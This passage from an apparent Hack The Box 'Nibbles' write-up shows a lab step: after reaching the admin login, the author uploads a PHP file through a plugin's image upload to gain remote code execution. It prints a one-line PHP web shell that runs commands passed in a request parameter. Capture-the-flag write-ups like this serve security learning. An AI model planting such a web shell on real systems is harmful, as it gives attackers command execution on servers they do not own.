 ![](/assets/images/htb-writeup-nibbles/admin_login2.png)
<br><br>

Now, we need to try to get a reverse shell, so let's go to plugins to upload some code and we can see that we can upload a file on `My image`. Let's try to do a **Remote Code Execution(RCE)** by uploading a PHP file with that code:
```php
<?php system($_REQUEST['cmd']); ?>
```
> **Important** In the provided code, the `system()`function is used, which allows the execution of shell commands. The `$REQUEST["cmd"]` variable retrieves the value of the `cmd` parameter from the HTTP request, which contains the shell command the attacker wants to execute.
<br><br>
